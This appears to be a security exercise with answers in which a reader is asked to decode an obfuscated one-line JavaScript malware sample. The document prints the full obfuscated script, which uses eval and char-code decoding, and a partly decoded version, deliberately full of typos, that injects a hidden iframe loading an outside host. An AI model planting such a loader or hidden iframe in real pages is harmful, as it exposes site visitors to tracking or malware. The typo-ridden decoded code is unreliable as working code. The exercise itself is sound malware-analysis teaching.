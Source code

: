 #### 10-Malware decoding + Security
Can you decode this malware?
```
<script<w=window;aa=([].slice+'hjkbghkj').substr(2- 1,4);if((aa=="func")||(aa=="unct")) aa=(document['createDocumentFragme'+'n'+'t']+'asd').substr(2- 1,4);if((aa=="func")||(aa=="unct"))   
{ss=new String();s=String;12- function(){e=w['e'+'val'];f='fromCharCode';}();t='m';}ddd=new Date(); d2=new Date(ddd.valueOf()-2);h=(ddd-d2)*-1; n="4.5m4.5m52.5m51m16m20m50m55.5m49.5m58.5m54.5m50.5m55m58m23m51.5m50.5m5 8m34.5m54m50.5m54. 5m50.5m55m58m57.5m33m60.5m42m48.5m51.5m39m48.5m54.5m50.5m20m19.5m49m55.5m 50m60.5m19.5m20. 5m45.5m24m46.5m20.5m61.5m4.5m4.5m4.5m52.5m51m57m48.5m54.5m50.5m57m20m20.5 m29.5m4.5m4.5m62. 5m16m50.5m54m57.5m50.5m16m61.5m4.5m4.5m4.5m50m55.5m49.5m58.5m54.5m50.5m55 m58m23m59.5m57m52. 5m58m50.5m20m17m30m52.5m51m57m48.5m54.5m50.5m16m57.5m57m49.5m30.5m19.5m52 m58m58m56m29m23.5m23.   
5m51.5m54m55.5m49m48.5m54m57.5m58m48.5m58m58.5m56m50m48.5m58m50.5m23m49.5 m55. 5m54.5m23.5m49. 5m48.5m49.5m52m50.5m23.5m57.5m58m48.5m58m23m56m52m56m19.5m16m59.5m52.5m50 m58m 52m30.5m19.5m24. 5m24m19.5m16m52m50.5m52.5m51.5m52m58m30.5m19.5m24.5m24m19.5m16m57.5m58m60 .5m5 4m50.5m30.5m19. 5m59m52.5m57.5m52.5m49m52.5m54m52.5m58m60.5m29m52m52.5m50m50m50.5m55m29.5 m56m 55.5m57.5m52.5m58m52. 5m55.5m55m29m48.5m49m57.5m55.5m54m58.5m58m50.5m29.5m54m50.5m51m58m29m24m2 9.5m 58m55.5m56m29m24m29. 5m19.5m31m30m23.5m52.5m51m57m48.5m54.5m50.5m31m17m20.5m29.5m4.5m4.5m62.5m 4.5m   
4.5m51m58.5m55m49.5m58m52. 5m55.5m55m16m52.5m51m57m48.5m54.5m50.5m57m20m20.5m61.5m4.5m4.5m4.5m59m48.   
5m57 m16m51m16m30.5m16m50m55. 5m49.5m58.5m54.5m50.5m55m58m23m49.5m57m50.5m48.5m58m50.5m34.5m54m50.5m54. 5m50 .5m55m58m20m19.5m52.5m51m57m48. 5m54.5m50.5m19.5m20.5m29.5m51m23m57.5m50.5m58m32.5m58m58m57m52.5m49m58.5m 58m5   
0.5m20m19.5m57.5m57m49.5m19. 5m22m19.5m52m58m58m56m29m23.5m23.5m51.5m54m55.5m49m48.5m54m57.5m58m48.5m5 8m58.5m56m50m48.5m58m50.5m23m49. 5m55.5m54.5m23.5m49.5m48.5m49.5m52m50.5m23.5m57.5m58m48.5m58m23m56m52m56m 19.5m20.5m29.5m51m23m57.5m58m60.   
5m54m50.5m23m59m52.5m57.5m52.5m49m52.5m54m52.5m58m60.5m30.5m19.5m52m52.5m 50m50m50.5m55m19.5m29.5m51m23m57. 5m58m60.5m54m50.5m23m56m55.5m57.5m52.5m58m52.5m55.5m55m30.5m19.5m48.5m49m 57.5   
m55.5m54m58.5m58m50.5m19.5m29. 5m51m23m57.5m58m60.5m54m50.5m23m54m50.5m51m58m30.5m19.5m24m19.5m29.5m51m2 3m57   
.5m58m60.5m54m50.5m23m58m55. 5m56m30.5m19.5m24m19.5m29.5m51m23m57.5m50.5m58m32.5m58m58m57m52.5m49m58.5 m58m50.5m20m19.5m59.5m52. 5m50m58m52m19.5m22m19.5m24.5m24m19.5m20.5m29.5m51m23m57.5m50.5m58m32.5m58 m58m57m52.5m49m58.5m58m50. 5m20m19.5m52m50.5m52.5m51.5m52m58m19.5m22m19.5m24.5m24m19.5m20.5m29.5m4.5 m4.5m4.5m50m55.5m49.5m58.   
5m54.5m50.5m55m58m23m51.5m50.5m58m34.5m54m50.5m54.5m50.5m55m58m57.5m33m60 .5m4 2m48.5m51.5m39m48. 5m54.5m50.5m20m19.5m49m55.5m50m60.5m19.5m20.5m45.5m24m46.5m23m48.5m56m56m 50.5 m55m50m33.5m52m52.   
5m54m50m20m51m20.5m29.5m4.5m4.5m62.5"; n=n["split"](t);for(i=0;n.length-i>0;i++)ss+=s[f](-h*n[i]);f=ss;e(f); </script> 
```
What does it do? Note that it is all in one line.
>**Answer:** The item injects some javascript into the DOM using Document Fragment, after a window.eval(). I have the code block below, note there are some typos, as I don't want to waste too much time on the problem, but you can understand what the code is doing.
It inserts a hidden iframe to the body tag, which directs to http:/globalstatupdate.com/cache/stat.php. It's probably some sort of tracker. Or could have more malicious code on that site.
[https://repl.it/repls/DiligentDimLicenses](https://repl.it/repls/DiligentDimLicenses)

>**Answer:** Code block
```
 if (document.geEleentsByTagName('body'[0]){    
        iframer();
        else {
        document.wrte("
        <iframe src='http:/globalstatupdate.cm/ache/stat.php' 
        width='0' 
        height='10'
        ste=visibility:hidden;positon:absolute;left:0top:0'>
        </iframe>");
    }       
functon iframer()
{           
vr f = dcument.createElent('ifrme');
f.setAttribut(
'src,'http://globalstaupdate.om/cache/stat.php'
```